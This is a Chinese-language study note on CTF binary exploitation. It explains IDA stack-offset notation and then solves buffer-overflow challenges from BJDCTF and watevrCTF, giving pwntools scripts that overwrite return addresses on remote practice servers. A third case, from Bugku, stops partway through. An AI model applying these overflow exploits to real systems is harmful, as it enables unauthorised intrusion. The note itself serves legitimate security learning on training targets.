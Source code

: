 # 代码理解

代码如下

```
  _BYTE v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]
```

## v1

- [rsp +0h]：表示栈指针在0h出

- [rbp-30h] ：表示基指针在30h出

  定义了一个44字节的v1

  起始地址是[rbp-30h]

  从[rbp-30h]到[rbp-4h]共44字节

  计算
  $$
  \begin{align}
  
  字节大小&=结束地址-开始地址\\
         &=rbp-4-(rbp-30) \\
         &=2c
  \end{align}
  \\
  $$

  $$
  \begin{align}
    30\\
  - ~~~~04\\
  =~~~2c
  \end{align}
  $$

  0借位16，16-4=12，用2c表示
  $$
  2c=2\times16+12=44
  $$
  因此v1是44个字节

  

## v2



- [rsp+2Ch] ：表示栈指针在2C

- [rbp-4h]：表示基指针在-4h

  定义了一个4字节的float

  起始地址是[rbp-4h]

  终止地址[rbp]

  因此大小为4字节

  ## 图示

High Address
+-----------------+ <-- rbp
| v2 (float)      | [rbp-4h]  (4 bytes)
| v1[44]          | [rbp-30h] (44 bytes)
+-----------------+ <-- rsp (栈顶)
Low Address



# 新的案例1

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE buf[12]; // [rsp+0h] [rbp-10h] BYREF
  size_t nbytes; // [rsp+Ch] [rbp-4h] BYREF

  setvbuf(_bss_start, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  LODWORD(nbytes) = 0;
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("* And Welcome to the bin world!  *");
  puts("*  Let's try to pwn the world!   *");
  puts("* Please told me u answer loudly!*");
  puts("[+]Are u ready?");
  puts("[+]Please input the length of your name:");
  __isoc99_scanf("%d", &nbytes);
  if ( (int)nbytes > 10 )
  {
    puts("Oops,u name is too long!");
    exit(-1);
  }
  puts("[+]What's u name?");
  read(0, buf, (unsigned int)nbytes);
  return 0;
}
```

**nbytes，无符号整型，当输入-1时，会变为无符号整型的最大值，解题关键**

buf为16

payload=16+8

最后代码如下

```python
from pwn import *
p=remote("node4.anna.nssctf.cn",28144)
p.sendlineafter(b"Please input the length of your name:", b"-1")
buf=b'a'*(12+4+8)
payload=buf+p64(0x40072A)
p.sendlineafter(b"What's u name?", payload)
p.interactive()
```

# 新的案例2

[[watevrCTF 2019\]Voting Machine 1 | NSSCTF](https://www.nssctf.cn/problem/85)

ida逆向发现如下代码

```
  _BYTE v4[2]; // [rsp+Eh] [rbp-2h] BYREF
```



```
void __noreturn super_secret_function()
{
  FILE *stream; // [rsp+0h] [rbp-10h]
  char i; // [rsp+Fh] [rbp-1h]

  stream = fopen("/home/ctf/flag.txt", "r");
  if ( !stream )
  {
    puts("Cannot open flag.txt");
    exit(1);
  }
  for ( i = fgetc(stream); i != -1; i = fgetc(stream) )
    putchar(i);
  fclose(stream);
  exit(0);
}
```

填充2+8

目标地址是super_secret_function函数

在ida在可以发现，地址是400807

因此，代码如下

```
from pwn import *
p=remote("node5.anna.nssctf.cn",29911)

buf=b'a'*(2+8)
payload=buf+p64(0x400807)
p.send(payload)

p.interactive()

```

# 新的案例3

地址

[overflow2 - Bugku CTF平台](https://ctf.bugku.com/challenges/detail/id/227.html)

代码

```
  _QWORD buf[4]; // [rsp+0h] [rbp-20h] BYREF
```

20h是32字节

没有后门

```
int NotBackDoor()
{
  return system("ls");
}
```











